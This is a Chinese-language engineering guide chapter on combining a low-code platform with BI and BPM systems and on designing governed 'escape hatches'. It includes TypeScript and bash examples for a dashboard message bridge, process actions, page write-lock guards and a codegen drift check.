三系统组合的全景（谁持有真相、谁只是投影）：



**组合模式一：嵌入式——BI 组件作为物料注册进平台**。最轻的组合：把图表组件（自研或 echarts 封装）注册为普通物料，数据来自平台数据源。这适合"页面里放一张图"，不适合"整页是报表"。当需求滑向"整页报表"（多图联动、全局时间筛选、下钻），正确形态是**平台页面节点里嵌一个 BI 面板整体**（iframe 或 Web Component），而不是用平台物料拼一个仿制品：

```ts
// schema/composition.ts —— 组合式节点：整页只占一个节点位
export interface DashboardRefNode {
  type: 'dashboardRef';              // 平台物料：一个"仪表盘引用"节点
  props: {
    dashboardId: string;             // BI 侧的仪表盘 id——引用，不是复制其 schema
    paramsExpr?: string;             // 传参表达式："{ dateRange: $page.dateRange }"
  };
  bindings?: Record<string, string>; // 例如高度绑定变量实现"展开/收起"
}

// 动作侧对称：BI 面板的交互可以回流平台变量
// dashboardRef 节点接收 BI 侧 postMessage({ kind: 'filterChange', payload })
// → 转成 updateVariable 动作 → 平台侧其他节点（比如一个明细表格）跟着变
```

消息桥的完整实现小而严谨，值得抄——它同时是第 9 章速查表新增行"postMessage 来源校验"在实践中的样子（校验 `e.source` 与 `e.origin`、握手成功前的消息一律丢弃）：

```ts
// renderer/dashboardBridge.ts —— BI 面板 ↔ 平台 的受控消息桥
type BridgeMessage =
  | { kind: 'ready' }                                            // BI 侧加载完成，握手
  | { kind: 'filterChange'; payload: Record<string, unknown> }   // BI 侧筛选变化
  | { kind: 'requestParams' };                                   // BI 侧主动索要最新传参

export function mountDashboardBridge(
  iframe: HTMLIFrameElement,
  expectedOrigin: string,                     // BI 面板的部署 origin（白名单，不是 *）
  onFilterChange: (payload: Record<string, unknown>) => void,
): () => void {
  let ready = false;

  const handler = (e: MessageEvent) => {
    if (e.source !== iframe.contentWindow) return;      // 只认自己嵌的那个窗口
    if (e.origin !== expectedOrigin) return;            // 且只认约定 origin——两条缺一不可
    const msg = e.data as BridgeMessage;
    if (msg?.kind === 'ready') { ready = true; sendParams(); return; }
    if (!ready) return;                                 // 握手未完成的一切指令丢弃
    if (msg?.kind === 'filterChange') onFilterChange(msg.payload);
  };

  function sendParams() {
    iframe.contentWindow?.postMessage(
      { kind: 'params', payload: readBindings() },       // readBindings：对 paramsExpr 求值
      expectedOrigin,                                    // targetOrigin 显式指定，不广播
    );
  }

  window.addEventListener('message', handler);
  return () => window.removeEventListener('message', handler);   // 卸载必须摘除，防泄漏与错投
}
```

**组合模式二：动作 handoff——动作引擎对接流程引擎**。页面按钮发起审批，正确的分工是：动作引擎只负责"发起/查询/推进"这类**一次性调用**，流程状态与流转规则全部住在 BPM 引擎里。在路线 6 的 `ActionConfig` 上扩一个动作类型即可：

```ts
// actions/processExecutor.ts —— 边界动作的 executor（对照路线 6 的 registry 结构）
import { evaluate } from '../expr';
import type { ActionContext } from './types';

export async function executeStartProcess(
  config: { processKey: string; bizIdExpr?: string; variablesExpr?: string },
  ctx: ActionContext,                        // 路线 6 注入：变量池读写 + fetch 封装
): Promise<void> {
  const bizId = config.bizIdExpr ? evaluate(config.bizIdExpr, ctx.scope) : undefined;
  const vars = config.variablesExpr
    ? (evaluate(config.variablesExpr, ctx.scope) as Record<string, unknown>)
    : {};
  const res = await ctx.fetch('/api/process/start', {
    method: 'POST',
    body: JSON.stringify({ processKey: config.processKey, bizId, variables: vars }),
  });
  // 引擎返回的 instanceId 写入页面变量——此后页面展示流程状态一律 queryTask，
  // 不在本地存任何"流程走到哪了"的推算值（页面是流程的投影，不是流程的副本）
  await ctx.setVariable('page', 'processInstanceId', res.instanceId);
}
```

**组合模式三：数据互链——BI 数据集成为低代码数据源的一个 kind**。平台数据源协议（路线 1 的 `DataSourceConfig`）天生是开集，加一个 `kind: 'dataset'`（指向 BI 侧的数据集 id），聚合与口径由 BI 层保证。原则只有一条：**引用 by id，永不复制 schema**。把 BI 数据集定义或流程图 JSON 复制粘贴进页面 schema，第一天能用，第三个月两边各自演化后没人说得清哪个是真相——diff 之灾从此开始，且无法回头。

**三个高发坑（症状→根因→修法）**：

- 坑一：用平台物料拼出来的"报表页"越用越卡。症状：几十个图表节点、全局筛选变量一变全页重渲染，Profiler 里 commit 长期几十毫秒，用户投诉"切个月份要两秒"。根因：把"整页报表"按模式一做成了"N 个图表物料"，跨图联动、口径统一这些 BI 内核能力被摊成了 N 份平台协议在做。修法：整页报表整体换成 `dashboardRef` 嵌入节点，平台只管传参与回传；页面里零散的一两张图才用图表物料。
- 坑二：审批流画进事件动作链，流程真相丢失。症状：业务方问"这个单子现在卡在谁那"，没人能回答——流程步骤分散在十几张页面的 `events` 里，每张页面各自 `callApi` 推一步。根因：用模式二的位置塞进了模式不该承载的东西——动作链是页面级编排，跨页面跨天的状态它既看不见也存不住。修法：动作链里只保留 `startProcess`/`queryTask` 边界动作，流转规则全部回迁 BPM 引擎；已有存量按"一张页面一个边界动作"逐步收缩。
- 坑三：跨系统权限模型不一致导致越权。症状：页面节点挂了"仅管理层可见"，但嵌入的 BI 面板用的是平台统一的只读 token，普通用户打开页面看不到卡片、却直接看到了 iframe 里的 BI 报表。根因：三个系统各有各的权限模型（节点权限码 / BI 数据行权限 / BPM 任务处理人），组合时只配了低代码这一层。修法：组合节点的传参里必须带身份上下文（`paramsExpr` 透传用户身份或由嵌入端服务端代理取数），并在联调清单里固定一条"组合边界权限三连查"：页面节点权限、BI 数据集行权限、流程任务处理人，三者单独可测。

**组合边界自查清单**（每次给平台接入一个外部系统时过一遍，六个问题对应六种事故）：

1. 真相归谁？——外部系统的核心状态（流程实例、数据集口径）是否仍由对方引擎持有，平台侧有没有偷偷落一份副本？
2. 引用还是复制？——页面 schema 里出现的是对方系统的 id，还是对方的配置 JSON？
3. 失联降级？——对方系统挂了/超时，页面是渲染占位组件还是整页崩（对照第 9 章"未知 type 兜底"原则）？
4. 身份透传？——跨系统调用带没带用户身份，还是用了平台服务账号（越权隐患）？
5. 权限三连查？——页面节点权限、对方系统行权限、任务处理人，三处是否都单独验证过？
6. 版本协商？——对方系统升级 API 时，平台的边界动作（executor）有没有版本兼容层，还是硬编码了对方当前的字段名？

**验收清单**：能对着五问把一个真实越界需求判到正确归属并说出理由；`dashboardRef` 节点传参变化时 BI 面板刷新、BI 侧筛选能回写平台变量；`startProcess` 动作发起后，在 BPM 侧能看到完整流程实例且页面刷新后状态不丢；三系统之间只有 id 引用，`grep` 页面 schema 找不到任何一份被复制进来的外部 schema。

### 补充：二次开发逃生舱——平台搭不出来时的四层退路

**是什么**：任何低代码平台都有能力边界——某天一个需求需要平台没有的组件、塞不进表达式引擎的逻辑、或者整页超出了拖拽模型的表达力。逃生舱（escape hatch）是**预先设计好的、受治理的离开平台约束的通道**。本节讲两层东西：逃生舱的分层设计（四层退路，破坏性递增），以及防止逃生舱被滥用的治理机制。与本章既有内容的关系：路线 7 讲"怎么安全执行用户 JS"、路线 8 讲"出码与运行时解释的架构取舍"、05 复刻手册 4.2/4.3 讲自定义物料与出码的实现——本节讲的是它们**作为逃生舱时的启用决策与协议挂点**，即"什么时候允许逃、逃了怎么不失控"。

**为什么必须预设计**：没有逃生舱的平台，边界需求只有两条路——硬拗（用 20 个不合适的物料拼出一个残废交互）或者放弃（该页离开平台用代码写，且从此失去平台的管理/权限/版本能力）。前者产出劣质页面，后者产出"平台飞地"——散落各处、平台看不见也管不了的代码页面。逃生舱的本质是把"逃"变成平台的一种**受控动作**：有协议标记、有清单、有监控。

**四层退路**（按破坏性递增、可回迁性递减）：

| 层级 | 退路 | 做什么 | 破坏性 | 可回迁 |
|---|---|---|---|---|
| L1 | 自定义物料 | 开发者把本地组件注册进平台物料表（正常 React 组件，配置走标准 Setter） | 零：对页面 schema 完全透明 | 完全可回迁（它就是标准物料） |
| L2 | 源码节点 | schema 里局部嵌"代码节点"：渲染端是自定义组件，逻辑端是经路线 7 沙箱执行的一段代码 | 局部：该节点不可视化编辑，但页面仍受平台管理 | 可回迁（迁回物料是理想路径） |
| L3 | 页面出码 | 整页 schema 编译成 React 源码工程（路线 8 的 codegen），此后该页脱离平台运行时 | 整页：不再随引擎升级，平台只保留"从这里出码"的历史 | 理论可回迁、实践很难（见 drift 治理） |
| L4 | 整页离开 | 该页面从一开始就不进平台，平台目录里只留一个外链入口（连 iframe 都不嵌） | 全部：平台只提供导航与权限壳 | 无 |

分层的使用纪律：**永远从能解决问题的最低层逃**。"差多少"三问逐级判定：

1. **差一个组件吗？**（页面其余部分都是标准物料的组合，只缺地图/签名板/扫描仪这类特殊组件）→ L1，注册自定义物料，问题终结。
2. **差一段逻辑或一种局部交互吗？**（页面骨架还是拖拽形态，但某个区域需要自定义渲染 + 特殊状态逻辑）→ L2，源码节点圈住这一块。
3. **页面主体超出拖拽模型了吗？**（自由画布、手势交互、密集编辑器——不是"缺零件"而是"整个形态不对"）→ L3，整页出码。
4. **它其实是另一个专业系统吗？**（在线 IDE、设计工具、专业 BI）→ L4，承认边界，平台只给导航入口。硬上低代码只是延缓它的死亡。

判定时最常见的人为偏差是"层级通胀"：开发者觉得 L2 更能体现技术含量，把 L1 能解决的需求直接跳到 L2——治理口径见下文的比例监控，技术上 L2 的实现成本也确实更高（要维护代码与 schema 的对齐），让成本自然抑制通胀。

**协议挂点**：逃生舱要在 schema 上"自述"，否则就退化成飞地。三个挂点：

```ts
// schema/escapeHatch.ts —— 逃生舱的协议标记
export interface PageSchema {
  // ...路线 1 的全部字段
  /** 物料清单：本页用到的非平台物料。schema 导出/跨环境迁移时它必须随行 */
  materials?: MaterialManifestItem[];
}

export interface MaterialManifestItem {
  name: string;                  // 'tenant:acme.signature-pad'
  source: 'platform' | 'remote' | 'local';
  version?: string;              // remote 物料的版本（路线 10）
  /** local 物料的源码位置声明：出码/回迁/审计都靠它定位 */
  sourceRef?: string;            // 'git://acme-fe/materials@v2/src/signature-pad'
}

export interface SchemaNode {
  // ...路线 1 的全部字段
  /** L2 标记：本节点是源码节点。编辑器据此显示"此节点需开发介入"的特殊态 */
  codeNode?: boolean;
  /** L3 标记：本页已出码。写回保护见下文 */
  exportedAt?: string;           // ISO 时间戳
}
```

`materials` manifest 放在 PageSchema 顶部而不是散在节点上，是因为它要回答的问题都是页面级的："把这个页面复制到测试环境，要带上哪些东西才能渲染？"——没有 manifest，跨环境迁移的页面在预览环境打开就是一排"物料未加载"占位块（路线 10 的降级兜底救得了显示，救不了功能）。

**drift 治理——逃出去的东西怎么不失控**。三件事：

1. **出码单向声明**。已出码页面（`exportedAt` 有值）在平台侧转只读，编辑器保存时检测到该标记必须拒绝写回并提示"此页已出码，修改请走源码仓库"。曾经的事故形态：产品在平台上"顺手优化了一下文案"，保存成功，下次全量出码把源码仓库里的手工修改覆盖——双向写没有一个赢者。出码页面回平台的唯一合法路径是**重新导入 schema**（源码侧改完 → 反向同步工具生成 schema → 平台按新页面走评审），而不是直接编辑存量。
2. **re-codegen diff 报告**。CI 里定期把所有 L3 页面的存量 schema 重新出码，与源码仓库 diff：diff 为空说明该页还处于"平台 schema 是真相"的状态（健康）；diff 非空说明源码侧已手工演化、schema 过期（用颜色标出来）。这个报告不追求合并，只追求**知情**——知道哪些页面已经和平台分叉多远。
3. **逃生舱比例监控**。统计口径：`(L2 节点数 + L3/L4 页面数) / 总量`。健康平台该比例长期低于一成；某团队/某租户的比例异常升高，是最早的"平台能力欠账"信号——正确响应是去补物料/补能力（把欠账还回 L1），而不是骂开发者滥用。超过阈值（如 15%）触发架构评审，评审对象是平台而不是开发者。

写回保护的服务端守卫（前端拦截可绕过，必须双层）：

```ts
// server/savePage.ts —— 出码页面的写回守卫（loadPage/markReadOnly/persist 为存储层函数，由平台 DAO 提供）
import type { PageSchema } from '../schema/types';

export class PageLockedError extends Error {
  constructor(pageId: string) {
    super(`页面 ${pageId} 已出码，平台侧只读；修改请走源码仓库后重新导入`);
  }
}

export function savePage(pageId: string, next: PageSchema): void {
  const current = loadPage(pageId);
  if (current.exportedAt && !next.exportedAt) {
    // 已出码页面出现"没有 exportedAt 的保存请求" = 有人试图绕过前端锁直接改数据
    throw new PageLockedError(pageId);
  }
  if (next.exportedAt && !current.exportedAt) {
    // 首次出码：平台侧转只读动作走这里，记录出码时间并广播锁定事件
    markReadOnly(pageId, next.exportedAt);
    return;
  }
  persist(pageId, next);   // 常规保存只属于从未出码的页面
}
```

**出码/回迁的完整生命周期**（把三条治理规则串成一图）：



re-codegen diff 的 CI 骨架（每周跑一次，产物是一份"分叉度报告"而不是合并请求）：

```bash
#!/usr/bin/env bash
# ci/regen-diff.sh —— 全量已出码页面的 schema 与源码工程分叉检测
set -euo pipefail

DRIFT=0
for page_id in $(curl -sf "$PLATFORM_API/pages?exported=true" | jq -r '.[].id'); do
  # 1. 用当前引擎对存量 schema 重新出码（与当年出码时的引擎可能已隔着 N 个版本）
  curl -sf "$PLATFORM_API/pages/$page_id/schema" | jq . > "/tmp/$page_id.schema.json"
  pnpm codegen --in "/tmp/$page_id.schema.json" --out "/tmp/$page_id.regen/"
  # 2. 与源码仓库里的真实工程做 diff；有差异 = 该页已在源码侧演化（schema 过期）
  SRC_DIR=$(curl -sf "$PLATFORM_API/pages/$page_id" | jq -r '.sourceRepoPath')
  if ! diff -r --exclude=node_modules "$SRC_DIR/src" "/tmp/$page_id.regen/src" > "/tmp/$page_id.diff"; then
    echo "::warning::页面 $page_id 与平台 schema 已分叉（见 /tmp/$page_id.diff）"
    DRIFT=1
  fi
done
# 报告聚合进看板；非零退出码只用于提醒，不阻塞流水线——diff 非空不是错误，是信息
exit 0
```

前端侧的 manifest 校验（渲染入口对 `local` 物料给出可操作的降级，与路线 10 的占位兜底衔接）：

```ts
// renderer/checkManifest.ts —— 渲染前核对物料可满足性
import type { PageSchema } from '../schema/types';

export interface ManifestReport {
  missing: { name: string; source: string }[];   // 目标环境加载不了的物料
  degraded: boolean;                              // 是否需要降级渲染
}

export function checkManifest(
  schema: PageSchema,
  available: Set<string>,                 // 当前环境注册表里已有的完整物料名
): ManifestReport {
  const declared = schema.materials ?? [];
  const missing = declared.filter((m) => !available.has(m.name))
    .map((m) => ({ name: m.name, source: m.source }));
  return { missing, degraded: missing.length > 0 };
}
// 渲染器拿到 degraded=true 时：缺失物料渲染"本地物料占位"（写明物料名与 sourceRef），
// 其余节点照常渲染——降级粒度到节点，绝不整页拒绝
```

**三个高发坑（症状→根因→修法）**：

- 坑一：源码节点滥用，平台退化成"写代码但更慢"。症状：某团队的页面里 `codeNode` 节点占了一半，拖拽搭建变成"在 schema 里写代码"，还背上了双份调试成本（编辑器黑盒 + 本地源码）。根因：平台物料供给速度跟不上业务（要的组件两周没人做），L2 从应急通道变成了常规通道。修法：不是禁用 L2（禁了他们直接走 L4，更看不见），而是把"逃生舱比例"纳入平台团队的 OKR——每个 L2 节点都是一条待兑现的物料需求，按月清算转化。
- 坑二：local 物料在预览/协同环境缺失。症状：开发机上调得好好的页面，同事打开全是占位块；协同会话里（路线 10）别人屏幕上该节点渲染失败。根因：local 物料只存在于开发者的本地注册（`source: 'local'`），没有随 schema 走的 manifest，目标环境无从加载。修法：manifest 强制随 schema 持久化（上文的 `materials` 字段）；预览环境对 `local` 物料给出可操作的降级文案（"此物料需本地调试环境"），协同场景下在 awareness 里标注"该节点含本地物料"。
- 坑三：出码页面被平台侧修改覆盖。症状与机制已在 drift 治理第 1 条讲透，这里补防线的完整清单：保存接口服务端也校验 `exportedAt`（前端拦截可绕过）；出码工程的 README 由 codegen 自动生成，注明"本工程由页面 id X 于某日出码，平台侧已锁定"；平台目录里该页显示锁定图标与源码仓库链接，让"锁定"对产品可见，而不是只对开发者存在。

**验收清单**：把一个平台没有的组件（如签名板）按 L1 接入并在两台机器上正常渲染；构造一个 L2 源码节点，编辑器显示特殊态且该页 schema 含 manifest；对一个页面执行出码，平台侧该页转为只读、再次保存被拒绝（前端与服务端双层）；CI 能产出 re-codegen diff 报告并标出过期页面；逃生舱比例看板可用且数字低于阈值。

---

## 附：ASCII 图替换清单

本文档图形化改版，原 ASCII 字符图与 Mermaid 图表对应关系如下：

| 原图位置 / 标题 | 处理结果 |
| --- | --- |
| 三系统组合全景：真相层（BPM/BI 引擎）与低代码平台（投影）的关系 | 替换为 flowchart TD（架构图） |
| 出码/回迁的完整生命周期：平台 schema ⇄ 源码工程 | 替换为 flowchart LR（生命周期回路） |
